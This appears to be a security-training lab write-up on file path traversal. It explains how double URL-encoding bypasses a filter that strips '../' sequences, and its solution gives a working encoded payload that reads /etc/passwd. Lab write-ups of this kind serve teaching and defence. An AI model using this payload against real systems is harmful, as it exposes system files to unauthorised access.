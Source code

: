 # Lab 4: File Path Traversal - Traversal Sequences Stripped with Superfluous URL-Decode

## 📝 Description

This lab shows a File Path Traversal vulnerability where traversal sequences (../) are stripped after URL decoding, but decoding happens more than once.

By double-encoding the sequences, you can bypass the filter.

## 🎯 Objective

- Understand how superfluous URL decoding works.

- Use double-encoded traversal sequences to escape restricted directories.

- Retrieve sensitive files such as /etc/passwd.

## Solution 

<img width="1347" height="428" alt="Screenshot (797)" src="https://github.com/user-attachments/assets/74c0d48b-3a42-45f0-989a-546df2f8c08a" />

```
<img src="/image/filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd">
```

